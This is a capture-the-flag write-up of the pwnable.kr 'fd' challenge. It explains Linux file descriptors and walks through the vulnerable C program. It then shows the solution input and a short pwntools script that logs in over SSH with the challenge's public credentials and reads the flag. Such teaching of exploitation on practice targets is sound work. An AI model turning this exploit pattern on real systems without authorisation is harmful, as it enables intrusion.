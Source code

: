 ```yaml
---
layout: post
title: pwnable.kr - fd , Understanding Linux File Descriptors and creating a simple exploit with python pwntools
categories: pwn
tags: [Linux, Binary Exploitation, Exploit Development, c, Python]
image: pwn/fd/0.png
---
```


<hr>
### Introduction
#### Hey guys , Lately I have been doing pwn challenges and I decided to share some stuff with you from time to time like I do with the other write-ups. Today we will solve fd from pwnable.kr , it's a very easy one but as always we will go in detail.
<br>
>  pwn means to compromise or control, specifically another computer (server or PC), website, gateway device, or application. It is synonymous with one of the definitions of hacking or cracking.
-[Wikipedia](https://en.wikipedia.org/wiki/Pwn) 

<br>
![](/images/pwn/fd/0.png)
<hr>
### Challenge Description
```
Mommy! what is a file descriptor in Linux?
ssh fd@pwnable.kr -p2222 (pw:guest)
```
#### We have ssh login info, and some sort of a hint , before doing anything let's talk about file descriptors , because that's what the hint said.
<br>
<hr>
### File descriptors
#### File descriptors simply are indicators or handles used to access a file or i/o (input/output) resource , File descriptors are represented in `c` as integers and there are 3 types of file descriptors :
#### `standard input` (`stdin`) , its integer value is `0`
#### `standard output` (`stdout`) , its integer value is `1`
#### `standard error` (`stderr`) , its integer value is `2`
#### To summarize this up , when you run a program and give it arguments through `sys.argv` for example , that's `stdin` , whatever the program gives you back as an output , that's `stdout` . If the program gave you an error , because you missed a required argument or gave it a wrong argument for example , that's `stderr`.
<br>
<hr>
### Source analysis
#### After we `ssh` to the server (`ssh fd@pwnable.kr -p2222` , password : `guest`) we find 3 files 
![](/images/pwn/fd/1.png)
#### `fd` , `fd.c` and `flag`.
#### `fd` is an executable , and `fd.c` is the source of that executable
![](/images/pwn/fd/2.png)
#### And we don't have permissions to view `flag` :
![](/images/pwn/fd/3.png)
#### Let's take a look at the source : 
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```
### Breakdown :
```
char buf[32];
```
#### This assigns a buffer of 32 chars to the variable `buf`
<br>
```
if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }

```
#### Here it starts by checking if we passed and argument or not , and if we didn't , it will print `pass argv[1] a number`
![](/images/pwn/fd/4.png)
<br>
<br>
```
int fd = atoi( argv[1] ) - 0x1234;
```
#### Then it defines a variable called `fd` , the value of that variable is `atoi( argv[1] ) - 0x1234`. `atoi()` is a function in `c` that converts a string into an integer , it stands for `Ascii to Integer` , `0x1234` is the hex of `4660` 
![](/images/pwn/fd/5.png)
#### So it subtracts 4660 from our input.
<br>
```
int len = 0;
```
#### This defines a variable called `len` and assigns a value of `0` to it
<br>
```
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

```
#### Here it's taking `fd` and also reading our input and puts it into `buf` , then there's an if statement which checks if the value of buf is `LETMEIN` , if it's then it will print `good job` and give us the flag , but if it's not it will print `learn about Linux file IO`. 
<br>
<hr>
### Exploitation
#### Now we have an idea about the logic of the program , and a pwn challenge is all about breaking that logic.
#### Let's run the program just to test :
`./fd 1337`
![](/images/pwn/fd/6.png)
#### It prints `learn about Linux file IO` , because we didn't get `fd` right. We know that `fd` is an abbreviation for file descriptor , and there are 3 file descriptors `stdin` `stdout` `stderr` , And we can also control the value of `fd` because we know that it's subtracting 4660 from `argv[1]` and we control `argv[1]` , how are we giving the program `argv[1]` ? Through `stdin` which is represented by `0` , so if we gave the program `4660` , `fd = 4660 - 4660` , `fd = 0`. Let's try it.
![](/images/pwn/fd/7.png)
#### Now it didn't print `learn about Linux file IO` , instead of that it's reading our input --> `len = read(fd, buf, 32);`
#### We knew earlier that we have to make buf = "LETMEWIN" to execute the first `if` condition :
![](/images/pwn/fd/8.png)
#### And we got the flag : "mommy! I think I know what a file descriptor is!!"
<br>
<hr>
### Exploitation with python pwntools
#### We will use a python library called pwntools to create an exploit. Read the documentation [here](http://docs.pwntools.com/en/stable/about.html)
#### We will import the pwntools library :
`from pwn import *`
#### Then we will set up an `ssh` connection to the server :
`shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)`
#### `fd` is the username , `pwnable.kr` is the host
#### After that we will start a process to execute `./fd 4660`
`process = shell.process(executable='./fd', argv=['fd','4660'])`
#### And finally we will send `LETMEWIN` and read the output
`process.sendline('LETMEWIN')`
<br>
<br>
`print process.recv()`
<br>
### Final script :
```
#!/usr/bin/python

from pwn import *

shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)
process = shell.process(executable='./fd', argv=['fd','4660'])
process.sendline('LETMEWIN')
print process.recv()
```
![](/images/pwn/fd/9.png)
#### Let's try it :
`./exploit.py`
![](/images/pwn/fd/10.png)
#### And it's working !
#### That's it , Feedback is appreciated !
#### Don't forget to read the [other write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<hr>
